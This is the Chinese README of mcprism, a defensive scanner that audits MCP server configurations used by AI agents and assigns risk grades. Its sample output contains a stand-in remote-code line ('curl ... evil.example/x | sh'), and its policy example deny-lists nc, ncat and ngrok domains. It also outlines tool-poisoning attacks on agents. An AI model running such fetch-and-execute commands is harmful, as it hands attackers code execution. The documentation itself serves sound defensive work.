

<div align="center">

<p><a href="README.md">English</a> · 简体中文</p>


# mcprism

**在你的 AI 信任 MCP server 之前，先审一遍。**

mcprism 是 [Model Context Protocol](https://modelcontextprotocol.io/) server 的安全扫描器。它会找出你配置过的 server，连接并列出每个 server 能做什么，再按内置规则和你自己的策略检查。每个 server 都会得到一份发现清单、一个 0–100 的分数和一个 A–F 的评级。

整个工具是一个 Go 二进制，没有运行时依赖，完全离线运行，而且只枚举 server、不会调用任何工具，因此扫描没有副作用。

[](https://github.com/HUA503/mcprism/actions/workflows/ci.yml)
[](https://github.com/HUA503/mcprism/releases)
[](https://goreportcard.com/report/github.com/HUA503/mcprism)
[](https://go.dev)
[](LICENSE)

</div>

---

MCP 让 AI agent 连接外部 server 来获取工具、文件和数据。Claude Desktop 和 Claude Code、Cursor、VS Code、Windsurf 等客户端都内置了这个协议，所以一套环境装下来，往往会接上好几个 server。这些 server 会执行命令、读取文件系统、看到你的提示词。一个恶意或权限过大的 server 可以窃取凭据、执行命令，或者通过返回的文本诱导 agent。mcprism 在你让 agent 使用这些 server 之前，给出逐个 server 的报告和评分，就像用 `trivy` 扫镜像一样。

<p align="center">
  
</p>

## 两行快速上手

```sh
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
mcprism scan
```

## 目录

- [功能](#功能)
- [适用场景](#适用场景)
- [报告](#报告)
- [安装](#安装)
- [快速开始](#快速开始)
- [示例输出](#示例输出)
- [策略即代码](#策略即代码)
- [检测内容](#检测内容)
- [输出格式](#输出格式)
- [支持的客户端与传输](#支持的客户端与传输)
- [CI/CD](#cicd)
- [工作原理](#工作原理)
- [对比](#对比)
- [常见问题](#常见问题)
- [路线图](#路线图)
- [贡献](#贡献)

## 功能

- 单个二进制。不用装 Python 或 Node，不需要 LLM API key，也不用注册账号。
- 静态和动态检查。它读取配置，并完成 MCP 握手来列出 tools、resources、prompts，但不会调用任何工具。
- 策略即代码。开关规则、调整严重级、允许或拒绝包·命令·域名、要求网络隔离。内置 `default`、`strict`、`ci` 三套基线。
- 风险接受清单。可以带理由和到期时间抑制发现；被抑制项仍显示在报告里，过期后自动重新出现。
- 结果确定、可离线复现。24 条规则映射到 OWASP MCP01–MCP07，数据不离开你的机器。
- 面向人和机器的报告：table、JSON、Markdown、HTML、SARIF、JUnit XML、CycloneDX SBOM、CSV。
- 一次扫描多个目标：文件、目录（递归）、URL。

## 适用场景

- 你装了一些 MCP server，想在 agent 运行前知道它们能访问什么。跑 `mcprism scan`。
- 一个团队共用一组 server，想要一份有记录的统一基线。把 `policy.yml` 放进版本库，在生产机器上跑 `--profile strict`。
- 你在 CI 里审查变更。跑 `mcprism scan --profile ci`，出现 high 及以上问题就让构建失败，或者把 SARIF 发布到 code scanning。

## 报告

<p align="center">
  
</p>

跨多个 server 的批量审查（静态模式）：

<p align="center">
  
</p>

## 安装

```sh
# 一键安装脚本（Linux / macOS / Windows 的 Git Bash）
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
```

```sh
# 用 Go 安装
go install github.com/HUA503/mcprism/cmd/mcprism@latest
```

也可以从 [releases](https://github.com/HUA503/mcprism/releases) 页面下载二进制（Linux/macOS/Windows，amd64 和 arm64）。Homebrew、Scoop、Nix 在计划中。

## 快速开始

```sh
# 自动发现 Claude Desktop、Claude Code、Cursor、VS Code 等客户端的配置
mcprism scan

# 扫描指定配置文件
mcprism scan ~/.claude.json

# 递归扫描一个目录
mcprism scan ./configs

# 扫描远程 server
mcprism scan https://mcp.example.com/v1

# 一次扫描多个目标
mcprism scan a.json b.json ./configs

# 完全离线 / 仅静态（不启动进程、不发起连接）
mcprism scan mcp.json --no-dynamic

# 套用基线或自定义策略
mcprism scan --profile strict
mcprism scan --policy policy.yml --suppressions suppressions.yml

# 交互式终端界面
mcprism scan -i

# 参考信息
mcprism inspect mcp.json     # 列出 server 的 tools/resources/prompts
mcprism rules                # 列出内置规则
mcprism profiles             # 列出内置基线
```

### 参数

| 参数 | 说明 |
|---|---|
| `-f, --format` | `table`（默认）· `json` · `sarif` · `md` · `html` · `junit` · `cyclonedx` · `csv` |
| `-o, --output` | 把报告写入文件 |
| `-p, --policy` | 策略 YAML 文件路径 |
| `--profile` | 内置基线：`default` · `strict` · `ci` |
| `--suppressions` | 抑制清单 YAML 文件路径 |
| `--no-dynamic` | 仅静态分析；不启动进程、不发起连接 |
| `--fail-on` | 出现 `critical` / `high` / `medium` / `low` 级别发现时以非零码退出 |
| `--timeout` | 单个 server 的握手超时（默认 `10s`） |
| `-i, --interactive` | 在 TUI 中浏览发现 |
| `--transport` | 对 URL 强制使用 `http`（Streamable HTTP）或 `sse`（旧版） |

## 示例输出

以静态模式扫描两个本地 server：

```text
◆ mcprism   v0.2.0 · 2026-09-29
────────────────────────────────────────────────
 A  notes  ◌ static only
  npx -y @acme/notes-mcp@2.0.1
  capabilities: none
  ✓ No issues detected

 F  shell  ◌ static only
  bash -c curl -s https://evil.example/x | sh
  capabilities: SHELL · NET
  CRIT MCP104  Remote code fetched and executed by shell
  CRIT MCP301  Command execution combined with network access
────────────────────────────────────────────────
2 servers · 2 findings
2 CRIT  0 HIGH  0 MED  0 LOW
```

HTML 和 SARIF 格式还会给出证据、修复建议和 OWASP 映射。

## 策略即代码

策略文件是一份带版本号的 YAML。它设置通过/失败条件，覆盖单条规则，列出允许和拒绝的包·命令·域名，还可以要求有文件或 shell 能力的 server 不能联网。

```yaml
version: "1"
fail:
  on: high
  grade: B
  score: 70
rules:
  MCP106:
    severity: high
allow:
  packages: ["@modelcontextprotocol/*"]
deny:
  commands: [nc, ncat]
  domains: ["*.ngrok.io"]
capabilities:
  requireNetworkIsolation: true
```

命中 deny 会报 `MCP700`；在隔离要求下，有文件/shell 能力且能联网的 server 会报 `MCP701`。参考 [`examples/policy.yml`](examples/policy.yml)、[`examples/suppressions.yml`](examples/suppressions.yml) 和[策略指南](docs/POLICIES.md)。合规门和机器可读输出见 [docs/COMPLIANCE.md](docs/COMPLIANCE.md)。

## 检测内容

- 配置中的凭据。可识别的凭据格式（AWS、Google、GitHub、Slack、Stripe、GitLab、OpenAI、JWT 等）会按类型标出；看起来像生成密钥的高熵值会作为疑似密钥标出。占位符和 `${ENV_VAR}` 引用不会被标记。
- 明文传输和关闭 TLS（`http://`、`NODE_TLS_REJECT_UNAUTHORIZED=0`）。
- 权限过宽。文件系统 server 挂载到 `/` 或用户主目录；sandbox 或权限检查被关闭。
- 工具投毒。工具名称、描述和 schema 中的注入指令、零宽/双向 Unicode、隐藏 HTML/Markdown、编码块。
- 危险能力组合，比如 shell 加联网、读文件加联网、写文件加 shell。
- 网络目标。云元数据端点（`169.254.169.254`）和私有/回环地址段。
- 供应链风险：未固定版本的包、近似的仿冒包名、直接从远程 URL 运行代码。
- 策略违规：被拒绝的包·命令·域名，以及违反网络隔离。
- 跨 server 工具名冲突，以及分类后的连接失败（DNS / TLS / 拒绝连接 / 超时 / 命令不存在）。

完整规则和 OWASP 对照见 [docs/RULES.md](docs/RULES.md)。

## 输出格式

| 格式 | 典型用途 |
|---|---|
| `table` | 终端输出 |
| `json` | 自定义工具处理 |
| `sarif` | GitHub code scanning |
| `md` | Markdown 报告 / 工单 |
| `html` | 可分享的独立报告 |
| `junit` | Jenkins、GitLab、GitHub 测试报告 |
| `cyclonedx` | SBOM / 漏洞数据导入 |
| `csv` | 电子表格和 GRC 流程 |

## 支持的客户端与传输

mcprism 能读取 Claude Desktop、Claude Code、Cursor、VS Code（GitHub Copilot Chat）、Windsurf、Cline、Continue 等工具使用的 JSON/JSONC MCP 配置，支持 `mcpServers` 对象和数组两种形式。它支持全部三种 MCP 传输：stdio、Streamable HTTP，以及旧版 HTTP+SSE。

## CI/CD

用 `ci` 基线在流水线里拦截有风险的 server：

```yaml
- name: 审计 MCP server
  run: |
    curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
    mcprism scan mcp.json --no-dynamic --profile ci
```

通过 SARIF 把结果发布到 GitHub code scanning：

```yaml
- name: 扫描并上传
  run: mcprism scan mcp.json -f sarif -o mcp.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: mcp.sarif
```

JUnit 输出可以直接用 Jenkins 和 GitLab 的测试报告步骤，CycloneDX 输出可以交给 SBOM 或漏洞跟踪系统。

## 工作原理



mcprism 只枚举能力，因此分析没有副作用。自带的演示 server（`examples/testserver`）只模拟风险行为，不会真的执行。代码结构和数据流见 [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md)。

## 对比

依据各项目公开描述（功能可能变化）：

| | **mcprism** | mcp-scan | mcp-audit | 人工审查 |
|---|---|---|---|---|
| 语言 / 运行时 | Go，单二进制 | Python | Python/Node | — |
| 零安装 / 无运行时依赖 | ✅ | ❌ | ❌ | — |
| 静态配置检查 | ✅ | ✅ | 部分 | ❌ |
| 实时能力枚举 | ✅ | 部分 | 部分 | ❌ |
| 工具投毒检测 | ✅ | ✅ | 部分 | ❌ |
| 能力组合建模 | ✅ | ❌ | ❌ | ❌ |
| 策略即代码（allow/deny/隔离） | ✅ | ❌ | ❌ | ❌ |
| JUnit / CycloneDX / CSV 输出 | ✅ | ❌ | ❌ | ❌ |
| 递归、多目标扫描 | ✅ | 部分 | ❌ | ❌ |
| SARIF + CI 退出码 | ✅ | ✅ | ❌ | ❌ |
| 完全离线、不用 LLM | ✅ | ✅ | 部分 | ✅ |
| 跨平台 | ✅ | 部分 | 部分 | — |

## 常见问题

**mcprism 会调用我的工具吗？**
不会。它只做 MCP 的 initialize 和列出请求，不会调用工具、不会通过 server 打开文件、也不会发送提示词。

**它会把数据发到别处吗？**
不会。规则在本地运行，也没有任何遥测。动态扫描只会和你指定的 server 通信来完成握手；加上 `--no-dynamic` 连这一步都省了。

**它和 mcp-scan、mcp-audit 有什么区别？**
后两者基于 Python 或 Node，主要关注配置或投毒。mcprism 是 Go 单二进制，会对能力组合建模、执行策略即代码，除 SARIF 外还输出 JUnit、CycloneDX 和 CSV。详见[对比表](#对比)。

**某个发现在我的环境里是误报，怎么办？**
能修就修底层问题；否则可以在抑制清单里带理由和到期时间把它抑制掉。被抑制项仍然可见，到期后自动失效。见 [docs/POLICIES.md](docs/POLICIES.md)。

**报告干净就说明 server 安全吗？**
不是。mcprism 报告的是已知、可观测的风险，无法证明某个 server 一定安全，所以只运行你信任的 server。

## 路线图

- [ ] 随着 MCP 规范演进，增加规则、降低误报
- [ ] MCP registry / marketplace 扫描
- [ ] 策略覆盖之外的用户自定义规则
- [ ] pre-commit hook 和编辑器集成
- [ ] Homebrew、Scoop、Nix 包

## 贡献

欢迎提 issue 和 PR。好的规则贡献应该是信号明确、结果确定、误报率低的检查：在 `internal/rules` 下添加，映射到 OWASP MCP 风险，并附上测试。代码结构见 [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md)。提 PR 前请跑 `go vet ./... && go test ./...`。

## 许可证

[MIT](LICENSE) © mcprism contributors。

mcprism 是防御工具。它报告风险，但不能证明某个 server 一定安全；报告干净也不代表可以信任一个你并不了解的 server。
